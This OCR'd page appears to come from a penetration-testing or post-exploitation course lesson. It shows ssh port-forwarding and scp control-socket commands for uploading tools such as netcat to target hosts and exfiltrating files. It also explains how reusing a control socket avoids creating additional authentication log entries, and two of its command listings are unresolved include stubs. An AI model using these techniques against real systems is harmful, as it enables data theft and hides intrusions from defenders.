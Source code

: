 ```
scp -P 1111 /tmp/netcat root@127.0.0.1:/tmp/netcat
```
**Download/Exfil Through Regular Tunnels**

```
ssh root@10.50.22.200 -L 1111:10.50.22.211:22
```
```
scp -P <LocalPort> [USER]@<LocalIP>:[/FILE/TO/DOWNLOAD]
[/LOCAL/DOWNLOAD/FILE/LOCATION]
scp -P 1111 root@127.0.0.1:/tmp/netcat.
```
**Upload Through Control Sockets**

```
# ssh -M -S <control/socket/location> <USER>@<TARG_IP>
<enter password>
```
```
scp -o 'ControlPath=<control/socket/location>' [LOCAL/FILE/TO/TRANSFER]
[USER]@<TARG_IP>:[/DEST/FILENAME]
scp -o 'ControlPath=/tmp/s' /tmp/netcat root@127.0.0.1:/tmp/netcat
```
### NOTE

```
The operator creates an SSH session to TARG_IP and uses the -M option to place the
the SSH client into "master" mode for connection sharing. This provides the
operator the ability to use the control socket for connection sharing specified by the
-S (referred to in the man page as ctl_path). In this example, /tmp/s is an arbitrary
location selected as the control path. +The /tmp/s file is, for all intents and purposes,
acting as a FIFO whenever another SSH client (be that SSH or SCP) sends data, or a
file, to it via the -o option in the scp line. + The operator executes an scp (secure
copy) command to transfer an arbitrary file to the /DEST/FILENAME on TARG_IP.
Instead of having to authenticate again, the SCP command utilizes the ControlPath
located at /tmp/s to transfer the file. By using the ControlPath, the scp command
does not have to authenticate to TARG_IP, therefore, saving another /var/log/secure
or auth.log entry from being made, besides the original SSH connection.
```
**Download/Exfil Through Control Sockets**

```
scp -o 'ControlPath=<control/socket/location>' [USER]@<TARG_IP>:[/FILE/TO/DOWNLOAD]
[/LOCAL/DOWNLOAD/FILE/LOCATION]
scp -o 'ControlPath=/tmp/s' root@127.0.0.1:/tmp/netcat.
```
**References**

**Windows Enumeration Commands**


```
Unresolved directive in lesson-8-post_sg.adoc - include::example$win-commands.ps1[]
```
**Linux Enumeration Commands**

```
Unresolved directive in lesson-8-post_sg.adoc - include::example$lin-commands.sh[]
```
SSH and SCP man pages
Master Control Sockets
Master Control Sockets
Deprecated Linux Commands


